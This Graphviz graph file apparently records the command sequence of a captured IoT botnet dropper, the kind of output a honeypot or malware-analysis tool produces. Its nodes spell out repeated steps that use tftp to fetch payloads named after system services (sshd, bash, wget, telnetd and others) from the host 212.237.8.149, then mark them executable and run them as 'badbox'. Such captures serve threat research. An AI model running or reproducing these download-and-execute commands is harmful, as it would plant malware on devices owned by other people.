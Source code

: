digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 14 [label="||,"];
14 [label="tftp 212.237.8.149 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 34 [label="||,"];
34 [label="tftp 212.237.8.149 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 54 [label="||,"];
54 [label="tftp 212.237.8.149 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 74 [label="||,"];
74 [label="tftp 212.237.8.149 -c get bash "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 94 [label="||,"];
94 [label="tftp 212.237.8.149 -c get tftp "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 114 [label="||,"];
114 [label="tftp 212.237.8.149 -c get wget "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 134 [label="||,"];
134 [label="tftp 212.237.8.149 -c get cron "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 154 [label="||,"];
154 [label="tftp 212.237.8.149 -c get ftp "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 174 [label="||,"];
174 [label="tftp 212.237.8.149 -c get pftp "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 194 [label="||,"];
194 [label="tftp 212.237.8.149 -c get sh "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 214 [label="||,"];
214 [label="tftp 212.237.8.149 -c get [cpu] "];
214 -> 216 [label=";,"];
216 [label="cat [cpu] badbox "];
216 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 234 [label="||,"];
234 [label="tftp 212.237.8.149 -c get apache2 "];
234 -> 236 [label=";,"];
236 [label="cat apache2 badbox "];
236 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 254 [label="||,"];
254 [label="tftp 212.237.8.149 -c get telnetd "];
254 -> 256 [label=";,"];
256 [label="cat telnetd badbox "];
256 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
}
